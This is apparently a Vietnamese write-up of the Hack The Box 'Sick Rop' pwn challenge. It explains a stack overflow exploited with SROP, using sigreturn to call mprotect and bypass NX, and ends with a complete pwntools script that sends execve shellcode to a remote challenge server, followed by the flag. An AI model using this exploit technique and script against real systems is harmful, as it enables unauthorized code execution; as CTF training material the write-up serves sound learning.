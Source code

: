 # Sick Rop 

- You might need some syscalls. 

## ida 

- chương trình rất đơn giản , chỉ có read và write thôi 

```c 
void __fastcall __noreturn start(int a1, int a2, int a3, int a4, int a5, int a6)
{
  while ( 1 )
    vuln(a1, a2, a3, a4, a5, a6);
} 

__int64 __fastcall vuln(int a1, int a2, int a3, int a4, int a5, int a6)
{
  size_t v6; // rax
  int v7; // edx
  int v8; // ecx
  int v9; // r8d
  int v10; // r9d
  const char *v11; // r10
  char v13[32]; // [rsp+0h] [rbp-20h] BYREF

  v6 = read(a1, a2, a3, a4, a5, a6, v13, 0x300uLL);
  return write(a1, a2, v7, v8, v9, v10, v11, v6);
}
``` 

## Analysis 

- ngay cái name vs description ta cũng đoán chall sử dụng kĩ thuật SROP rồi
- check các gadget thì thấy chỉ có mỗi syscall không có pop nào hết  

![image](https://github.com/gookoosss/CTF/assets/128712571/23eb78a1-7c44-41d8-88f5-410205e39a64)


- để thực thi Sigreturn thì ta cần set rax = 0xf, ko có pop rax thì là 1 vấn đề khó khăn đây
- sau khi tham khảo wu thì mình nhận ra ta có thể lợi dụng syscall read trong chall để set rax , rax = số byte nhập vào
- còn 1 vấn đề nữa là sau khi Sigreturn xong thì ta thực thi syscall nào đây?? trong chall không có sẵn /bin/sh cũng như không có hàm in để ta leak addr 

![image](https://github.com/gookoosss/CTF/assets/128712571/c69c773f-355f-47d5-98bc-0bd5371c0e6c)


- mình lại tiếp tục phải tham khảo wu lần nữa :))
- có 1 syscall khá thú vị có thể thay đổi quyền truy cập của một vùng nhớ trong quá trình thực thi chương trình đó là mprotect 

## mprotect 

![image](https://github.com/gookoosss/CTF/assets/128712571/b027c3b6-539e-4c6c-8fb8-fb411f7f3112)


- để dễ hình dung thì xem ví dụ dưới 

```asm 
section .data
    message db "Hello, World!", 0 ; (r__)

section .text
    global _start

_start:
    ; set up arg
    mov rdi, message ; addr(r__)
    mov rsi, 14      ; size (byte)
    mov rdx, 7       ; Quyền truy cập mới (7 = rwx)

    ; syscall mprotect
    mov rax, 10      ; Hệ thống ngắn gọn cho mprotect
    syscall
    
    ; lúc này message từ r__ => rwx (có quyền thực thi shellcode)
    ; Tiếp tục thực hiện shellcode sau khi đã thay đổi quyền truy cập

    ; ...

    ; Kết thúc chương trình
    mov eax, 60      ; Hệ thống ngắn gọn cho exit
    xor edi, edi     ; Mã thoát là 0
    syscall
``` 
- tóm lại là syscall mprotect có thể thay đổi quyền thực thi của 1 địa chỉ thành rwx (kể cả khi NX bật) cho phép ta bypass NX thực thi shellcode 
- sử dụng Sigreturn để thực thi mprotect , từ lần nhập sau ta có thể nhập shellcode 

## Exploit 
- trước tiên ta cần tìm 1 địa chỉ trỏ đến vuln để sau khi thực thi mprotect nó sẽ chạy lại hàm vuln cho phép ta nhập shell code  

![image](https://github.com/gookoosss/CTF/assets/128712571/aa9ed263-43c5-4b9f-a865-9270e7493500)

- 0x4010d8 là thứ ta cần, ta chọn 0x400000 làm vùng nhớ rwx
- bây giờ ta set Signreturn cho mprotect 

```python 
frame = SigreturnFrame()
frame.rax = 10 # mprotect
frame.rdi = 0x400000 # addr
frame.rdx = 7 # rwx 
frame.rsi = 0x2000 # size
frame.rsp = 0x4010d8 # trỏ đến vuln
frame.rip = syscall

payload = b'a'*40
payload += p64(exe.sym.vuln) # rip lần 1
payload += p64(syscall) # rip lần 2
payload += bytes(frame)

p.send(payload)
p.recv()

p.send(b'a'*0xf) # rax = 0xf
p.recv()
``` 

![image](https://github.com/gookoosss/CTF/assets/128712571/09d4eb07-98ee-4a6a-9065-540f289e1609)


- ok ta đã có được thứ ta cần , giờ chỉ cần nhập shellcode và lấy flag thôi 

![image](https://github.com/gookoosss/CTF/assets/128712571/f72c243e-c4c9-4f9f-baa8-32395e3d4ae0)





## script 

```python 
from pwn import *

p = process('./sick_rop')
p = remote('159.65.20.166',32384)
context.binary = exe = ELF('./sick_rop',checksec=False)
syscall = 0x401014 

# gdb.attach(p,gdbscript='''
# 	b*vuln+18
# 	b*vuln+23
# 	b*vuln+32
# 	c
# 	''')

# input()




frame = SigreturnFrame()
frame.rax = 10 # mprotect
frame.rdi = 0x400000 # addr
frame.rdx = 7 # rwx 
frame.rsi = 0x2000 # size
frame.rsp = 0x4010d8 # trỏ đến vuln
frame.rip = syscall

payload = b'a'*40
payload += p64(exe.sym.vuln) # rip lần 1
payload += p64(syscall) # rip lần 2
payload += bytes(frame)

p.send(payload)
p.recv()

p.send(b'a'*0xf) # rax = 0xf
p.recv()

shellcode = asm('''
	mov rbx, 29400045130965551
	push rbx

	mov rdi, rsp
	xor rdx, rdx
	xor rsi, rsi
	mov rax, 0x3b
	syscall
	''',arch='amd64')

payload = shellcode
payload = payload.ljust(40,b'P') + p64(0x4010b8)
p.send(payload)

p.interactive()
```

## Flag 

HTB{why_st0p_wh3n_y0u_cAn_s1GRoP!?}
